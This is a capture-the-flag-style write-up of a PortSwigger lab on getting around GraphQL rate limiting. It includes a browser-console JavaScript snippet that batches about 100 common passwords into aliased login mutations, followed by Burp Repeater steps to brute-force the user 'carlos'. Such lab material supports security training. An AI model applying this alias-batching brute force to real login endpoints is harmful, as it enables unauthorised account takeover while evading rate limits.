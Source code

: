 # Lab: Bypassing GraphQL brute force protections

The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as `carlos`. Use the list of [authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source.

{% hint style="info" %}
This lab requires you to craft a large request that uses aliases to send multiple login attempts at the same time. As this request could be time-consuming to create manually, we recommend you use a script to build the request.

The below example JavaScript builds a list of aliases corresponding to our list of authentication lab passwords and copies the request to your clipboard. To run this script:

1. Open the lab in Burp's browser.
2. Right-click the page and select **Inspect**.
3. Select the **Console** tab.
4. Paste the script and press Enter.

You can then use the generated aliases when crafting your request in Repeater.
{% endhint %}

```

copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");

```



## Steps

* Open Burp Suite and visit the target website
* Send the POST /graphql/v1 Login request to the repeater
* In the browser window copy the javascript code that is given in the hint section and execute
* Go to the Repeater tab and paste the copied payload inside mutation section
* Send the request&#x20;
* In the response tab search for the value true in the bottom search bar
* We can see the brute force index which we can now see the bruteforce index in the request tab to view the password of Carlos
* Login using Carlos user to solve the lab.
